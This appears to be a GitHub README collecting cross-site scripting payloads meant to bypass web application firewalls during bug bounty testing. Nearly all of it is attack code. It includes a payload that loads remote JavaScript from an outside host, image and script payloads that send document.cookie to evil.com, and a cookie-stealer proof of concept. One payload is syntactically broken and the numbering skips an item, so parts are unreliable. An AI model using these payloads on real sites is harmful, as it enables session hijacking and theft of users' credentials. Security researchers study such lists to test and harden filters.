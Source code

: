 # xss_waf_bypass
Some collection of xss payloads that worked for me to bypass wafs while doing bb

### Payloads

1. **Inject External JavaScript without `<script>` Tag:**
   
```html
<img src=x onerror="var script = document.createElement('script'); script.src = 'https://eternal.h4ck.me/xss.js'; document.head.appendChild(script);">
```

2. **Bypassing `onerror` Filter with `srcdoc`:**

```html
<iframe srcdoc="<script>alert('XSS')</script>">
```

3. **Data Exfiltration through Image Source (Cross-Domain):**

```html
<img src="https://evil.com/?data=" + encodeURIComponent(document.cookie)">
```

4. **CSS-Based XSS:**

```css
body { background-image: url('javascript:alert("XSS")'); }
```

5. **SVG XSS (Cross-Site Scripting using SVG):**

```html
<svg/onload=alert(document.domain)>
```

7. **Event Handlers to Execute Payload:**

```html
<button onclick="alert('XSS')">Click Me</button>
```

### Cookie Stealer Example:

```js
// XSS cookie stealer POC
var cookie = encodeURIComponent(document.cookie);
var url = 'https://evil.com/index.html/?victim_cookie=' + cookie;
window.location.href = url;
```
